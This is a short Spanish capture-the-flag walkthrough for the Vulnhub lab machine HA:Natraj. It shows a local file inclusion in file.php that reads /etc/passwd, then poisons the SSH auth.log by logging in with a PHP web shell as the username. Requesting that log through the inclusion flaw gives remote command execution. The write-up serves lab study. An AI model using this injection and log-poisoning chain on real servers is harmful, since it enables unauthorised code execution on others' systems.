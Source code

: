 # Maquina HA:Natraj Vulnhub

Puerto Abiertos 22, 80
```
- 22 --> SSH
- 80 --> HTTP
```
Encontramos que tenemos un Local File Inclusion

'http://IP_VIctima/console/file.php?file=/etc/passwd' 

Probando Rutas atraves del LFI vemos que tenemos acceso a la siguiente ruta:
```
/var/log/auth.log --> que pertenece a los logs de Registro de SSH
```
Apuntamos al recurso y probamos a inyectar en el campo username por SSH 

Procedemos a conectarnos por SSH:
```
ssh '<?php system($_GET['cmd']); ?>'@IP_Victima 
No proporcionamos contraseña ninguna.. .. .. 
```
Con este comando procedemos a envenenar el log auth.log de SSH para proceder a realizar una peticion por BURPSUITE o con curl y ejecutar comandos atraves del parametro 
CMD que hemos metido en codigo PHP en el AUTH.log

'http://IP_VIctima/console/file.php?file=/var/log/auth.log&cmd=id'

Chequeando atraves del LFI veriamos que ya tenemos un RCE o Ejecucion Remota de Comandos.
